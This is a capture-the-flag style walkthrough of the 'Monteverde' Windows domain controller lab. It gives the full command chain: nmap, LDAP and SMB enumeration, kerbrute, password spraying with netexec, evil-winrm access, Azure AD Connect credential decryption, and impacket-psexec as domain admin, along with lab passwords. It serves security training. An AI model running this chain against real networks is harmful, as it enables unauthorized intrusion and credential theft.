- Machine Name: Monteverde
- OS type: Windows
- Difficulty: Intermediate

### Port Scanning - Service & Version Enumeration

```powershell
# Nmap 7.94SVN scan initiated Sun Apr 13 03:27:47 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.10.172
Nmap scan report for 10.10.10.172
Host is up, received echo-reply ttl 127 (0.34s latency).
Scanned at 2025-04-13 03:27:48 EDT for 1199s
Not shown: 65516 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-04-13 07:44:27Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: **MEGABANK.LOCAL**0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49693/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49747/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: **MONTEVERDE**; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-04-13T07:45:26
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 2859/tcp): CLEAN (Timeout)
|   Check 2 (port 60952/tcp): CLEAN (Timeout)
|   Check 3 (port 47166/udp): CLEAN (Timeout)
|   Check 4 (port 8472/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 13 03:47:47 2025 -- 1 IP address (1 host up) scanned in 1199.43 seconds
```

## Enumeration

from nmap scan result i found the domain is **MEGABANK.LOCAL** and the Hostname of this machine is  **MONTEVERDE** also from nmap scan result i can say that it is the domain controller of the Megabank.local domain 

first thing i’ll do is the add MEGABANK.LOCAL and MONTEVERDE.MEGABANK.LOCAL into /etc/hosts file



### Port 139,445/SMB

i’ll begin my enumeration from SMB, i always first check for the null session or anonymous login in SMB

```powershell
smbcliennt -L //10.10.10.172 -N
```

-N for null session



server does allows Null session/anonymous login but it doesn’t listing the shares

if the anonymous login allows i’ll try enum4linux

```powershell
enum4linux -a 10.10.10.172
```



so it doesn’t allow the session with null credentials and nothing interesting from enum4linux

### Port 389,3268/LDAP

i’ll start LDAP enumeration using `ldapsearch` tool, first i’ll get DN (Distinguished Name for the domain) also called as NamingContexts

```powershell
ldapsearch -H ldap://10.10.10.172 -x -s base namingcontexts
```



we got the naming context that we’ll use in our further enumeration, like we’ll use it as base to perform full search over the domain

```powershell
ldapsearch -H ldap://10.10.10.172 -x -b "DC=MEGABANK,DC=LOCAL" > initial/ldap.out
```

this will generate lot of output so we’ll save it to file for further enumeration, we can use LDAP filters to search for specific queries like `(ObjectClass=User)` will only search for User in the AD 

```powershell
ldapsearch -H ldap://10.10.10.172 -x -b "DC=MEGABANK,DC=LOCAL" "(ObjectClass=User)" | grep -i samaccountname
```



above command will give us the list of all users inside domain, it’s worth it to check Description and info fields



copy the user names to users.txt 



i’ll use kerbrute to find valid users

```powershell
kerbrute userenum --dc 10.10.10.172 -d megabank.local users.txt -v
```

all users are valid, ok so the thing is we have the usernames and no password what about AS-REP?



ever wondered sometime user use same password as their username let’s give it a try 

```powershell
netexec smb 10.10.10.172 -u users.txt -p users.txt
```



Great! so the user **SABatchJobs** uses the same password as their username

when you get valid creds, enumeration start from 0 again, let’s first check if we have any shares access as SABatchJobs 

```powershell
netexec smb 10.10.10.172 -u SABatchJobs -p SABatchJobs --shares
```



i checked all shares i found users$ share$ useful, so i’ll connect to it and use `ls` command to list files and directories

first i’ll connect to share using `smbclient [//10.10.10.172/users$](https://10.10.10.172/users$) -U megabank.local/SABatchJobs%SABatchJobs`



ok so there are 4 directories to quickly enumerate all directories i always first enable recurse mode and then use ls command to list all files/directories recursively

```powershell
smb: \> recurse

smb: \> ls
```



and i found azure.xml file inside mhope directory, i’ll download it using `get mhope\azure.xml` 



reading the file i found password of the mhope user



i’ll check the winrm login using netexec 

```powershell
netexec winrm 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```



alright, we have **Pwn3d!,** i’ll load the evil version of winrm and login as mhope for HOPE to get Domain Admin soon!!

```powershell
evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```



## Post-Enum

after getting access i’ll start initial enumeration to grab more details and assemble pieces of puzzle for my way to Domain Admin

i first run the `tree /a /f` command from \Users directory



i found some interesting Azure directory and files, then i’ll check the Group membership of current mhope user



i found that user mhope is the member of Azure Admins

## Release the Hounds: Bloodhound

If i am working on AD, and i have valid creds i’ll run bloodhound for sure, to make it simple and avoid transferring any files and data, i’ll prefer to use bloodhound-python 

```powershell
bloodhound-python -c all -u 'mhope' -p '4n0therD4y@n0th3r$' -d MEGABANK.LOCAL -ns 10.10.10.172
```



start neo4j database using `sudo neo4j start` then start bloodhound, login into it and upload the data, but nothing useful

while enumerating the SMB shares i found the azure_uploads share, also the user AAD_987d7f2f57d2, mhope is member of Domain Admins so i thought it is related to some Azure AD, after searching many hours i found that we can actually dump Administrator Credentials from the ADSync service. [ref this blog](https://vbscrub.video.blog/2020/01/14/azure-ad-connect-database-exploit-priv-esc/) to know how it done, first download the https://github.com/VbScrub/AdSyncDecrypt/releases and upload both AdDecrypt.exe and mcrypt.dll to target machine


as per the instruction in blog,



i understood that i need to run this exe from the **`C:\Program Files\Microsoft Azure AD Sync\Bin`** 



to resolve this issue i need to specify the `-FullSQL` flag

[https://vbscrub.video.blog/2020/01/14/azure-ad-connect-database-exploit-priv-esc/]





again running the exe i got the Domain Admin credentials, what now! PsExec…!

```powershell
impacket-psexec megabank.local/administrator:'d0m@in4dminyeah!'@10.10.10.172
```

